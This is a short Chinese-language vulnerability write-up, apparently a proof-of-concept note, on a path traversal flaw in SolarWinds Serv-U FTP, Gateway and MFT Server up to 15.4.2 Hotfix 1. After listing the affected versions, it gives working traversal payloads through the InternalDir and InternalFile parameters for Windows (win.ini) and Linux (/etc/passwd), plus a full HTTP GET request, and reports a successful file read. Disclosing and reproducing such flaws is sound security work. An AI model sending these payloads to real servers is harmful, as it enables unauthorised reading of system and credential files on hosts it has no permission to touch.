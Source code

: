 **漏洞介绍**

SolarWinds Serv-U File Server是美国SolarWinds公司的一款文件传输服务器。

SolarWinds Serv-U存在路径遍历漏洞，该漏洞源于容易受到目录横向的影响，允许访问读取主机上的敏感文件。

**影响版本**

1、 SolarWinds Serv-U FTP Server <= 15.4.2 Hotfix 1 

2、 SolarWinds Serv-U Gateway <= 15.4.2 Hotfix 1 

3、 SolarWinds Serv-U MFT Server <= 15.4.2 Hotfix 1 

4、 （注意：Serv-U 版本15.3.2及更早版本将于 2025 年 2 月终止使用，并且此版本以下的所有版本都已终止使用并且不再受支持。）

**漏洞复现**

 **POC** 

漏洞复现

win

```
/?InternalDir=/../../../../Windows/&InternalFile=win.ini
```

Linux

```
/?InternalDir=\..\..\..\..\etc&InternalFile=passwd
```

漏洞复现

```
GET /?InternalDir=/../../../../Windows/&InternalFile=win.ini HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
```

读文件win.ini成功。